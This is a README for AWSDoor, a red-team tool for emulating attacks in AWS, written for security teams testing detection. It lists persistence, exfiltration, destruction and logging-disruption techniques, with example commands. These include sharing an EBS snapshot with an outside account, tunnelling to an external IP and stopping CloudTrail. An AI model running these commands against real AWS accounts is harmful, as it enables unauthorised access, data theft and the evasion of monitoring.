 # AWSDoor

> This readme has been AI generated

**AWSDoor** is a red team automation tool designed to simulate advanced attacker behavior in AWS environments. It automates the deployment of persistence mechanisms, data exfiltration techniques, destructive operations, and defense impairment tactics, enabling security teams to test their detection and response capabilities against realistic cloud-native threats.

Further technical information [here](https://www.riskinsight-wavestone.com/en/2025/09/awsdoor-persistence-on-aws/)

## 🔍 Purpose

As AWS becomes a critical infrastructure platform, attackers increasingly exploit its flexibility to maintain stealthy and durable access. AWSDoor helps red teams replicate these techniques in a controlled and auditable manner, supporting Threat-Led Penetration Testing (TLPT) and adversary emulation in cloud environments.

---

## 🚧 Future Improvements
AWSDoor is an evolving project. New techniques for persistence, exfiltration, evasion, and other attack vectors will be continuously added to reflect the latest developments in cloud threat landscapes. Stay tuned for upcoming updates!

## ✨ Features

### 1. Persistence Techniques
- **AccessKey Injection**: Add access keys to existing IAM users.
- **Trust Policy Backdooring**: Modify trust policies to allow external role assumption.
- **NotAction Policy Abuse**: Create overly permissive IAM policies using `NotAction`.
- **Lambda-Based Persistence**: Deploy backdoors via Lambda functions or poisoned Lambda layers.

### 2. Data Exfiltration
- **Snapshot Exfiltration**: Share EBS snapshots with external AWS accounts.
- **EC2 Reverse SOCKS**: Use EC2 and SSM to establish reverse SOCKS tunnels for lateral movement.

### 3. Destruction Techniques
- **S3 Shadow Deletion**: Deploy lifecycle policies to silently delete S3 data.
- **Leave Organization**: Detach AWS accounts from Organizations to evade governance and enable long-term compromise.

### 4. Defense Impairment
- **CloudTrail Logging Disruption**: Stop logging or modify event selectors to reduce visibility.
- **CloudWatch and Config Tampering**: Impair monitoring and alerting mechanisms.

---

## 🧪 Example Usage


### AccessKey Injection
```bash
python .\main.py -m AccessKey -u adele.vance
```

### Trust Policy Backdooring
```bash
python .\main.py -m TrustPolicy -r FAKEROLE -a 584739118107
```

### NotAction Policy Abuse
```bash
python .\main.py -m NotAction -r FAKEROLE -p ROGUEPOLICY
```

### Lambda-Based Persistence
```bash
python .\main.py -m AdminLambda -r FAKEROLE -n lambda_test2 -l
```
### Snapshot Exfiltration
```bash
python .\main.py -m EC2DiskExfiltration -i i-0021dfcf18a891b07 -a 503561426720
```
### EC2 Reverse SOCKS
```bash
python .\main.py -m EC2Socks -name i-0021dfcf18a891b07 -key "ssh-ed25519 AAAA..." -remotekey path/to/key.pem -user ec2-user -socksport 4444 -sshuser admin -sshhost 13.38.79.236 --method systemd
```

### CloudTrail Logging Disruption
```bash
python .\main.py --m CloudTrailStop -s 
```

### S3 Shadow Deletion
```bash
python .\main.py --m S3ShadowDelete -n s3bucketname
```

## 🙏 Acknowledgments
This tool was developed as part of internal R&D efforts at Wavestone. Special thanks to Wavestone for supporting the research and development of AWSDoor.

## 📚 Coming Soon
A full technical article will be published to provide in-depth explanations of each technique implemented in AWSDoor, including detection strategies and mitigation recommendations.
